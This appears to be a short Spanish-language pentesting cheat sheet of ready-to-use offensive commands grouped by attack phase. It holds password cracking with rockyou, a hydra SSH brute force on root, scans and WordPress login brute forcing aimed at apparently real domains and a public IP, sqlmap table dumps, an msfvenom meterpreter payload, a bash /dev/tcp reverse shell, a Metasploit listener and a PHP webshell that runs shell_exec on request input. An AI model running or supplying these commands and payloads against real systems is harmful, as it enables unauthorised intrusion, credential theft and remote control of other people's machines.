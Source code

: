 

## HASHES
hashcat -m 0 -a 0 pass.txt /usr/share/wordlists/rockyou.txt --force  
john /usr/share/wordlists/rockyou.txt --format=Raw-SHA256 sha256.txt  
hydra -l root -P /usr/share/wordlists/rockyou.txt -u -s 22 10.1.1.1 ssh  
 
## SCANNERS
nmap -p- --open -T5 -v -n 35.214.200.34  
nmap --script http-enum lamadrid.es -oN webscan  
netdiscover -i eth0  
rustscan -a 10.10.11.105 -b 50 -t 150

## DISCOVER
enum4linux -a 192.168.1.1  
smbclient -L //10.10.10.100 -U name  
/usr/share/doc/python-impacket/examples/GetADUsers.py -all domain.dc/svc_user -dc-ip 10.10.10.1  

## SQLi
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=2" --dbs  
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=2" -D acuart --tables  
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=2" -D acuart -T users --dump  

## WEBs
wpscan --url beehackers.es -U admin -P /usr/share/wordlists/rockyou.txt --random-user-agent -t 4  
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt lamadrid.es/FUZZ   
whatweb https://lamadrid.es   
nıkto -h 10.1.1.1  

## REVERSE
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1 LPORT=444 -f raw > shell.php  
bash -c "bash -i >& /dev/tcp/miIP/PUERTO 0>&1"  

## LISTENER
mfsconsole  
  use exploit/multi/handler  
  set payload windows/meterpreter/reverse_tcp  
nc -lvnp 4444  

## WEBSHELL
```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
// llamar desde la web: http://IP/shellCMD.php?cmd=ls /home/user
```

## RESOURCES
GTFOBins [diferentes formas de abrir una shell]  
